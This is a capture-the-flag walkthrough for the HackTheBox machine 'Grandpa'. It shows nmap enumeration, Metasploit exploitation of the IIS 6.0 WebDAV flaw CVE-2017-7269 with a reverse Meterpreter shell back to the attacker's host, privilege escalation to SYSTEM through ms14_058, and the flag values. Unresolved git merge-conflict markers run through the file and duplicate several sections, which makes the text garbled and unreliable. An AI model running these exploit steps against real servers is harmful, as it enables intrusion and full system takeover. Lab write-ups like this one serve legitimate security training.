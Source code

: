 # HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```
<<<<<<< HEAD
![nmap](img/nmap.png)
=======
>>>>>>> 9f1f476 (Add files via upload)

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)

<<<<<<< HEAD
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```
<<<<<<< HEAD
![migrate](img/migrate.png)
=======
>>>>>>> 9f1f476 (Add files via upload)

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
<<<<<<< HEAD
![recon](img/recon.png)
=======
>>>>>>> 9f1f476 (Add files via upload)

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
![root](img/root.png)
=======
>>>>>>> 9f1f476 (Add files via upload)

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```
<<<<<<< HEAD
![userflag](img/userflag.png)
=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```
<<<<<<< HEAD
![rootflag](img/rootflag.png)
=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)

---
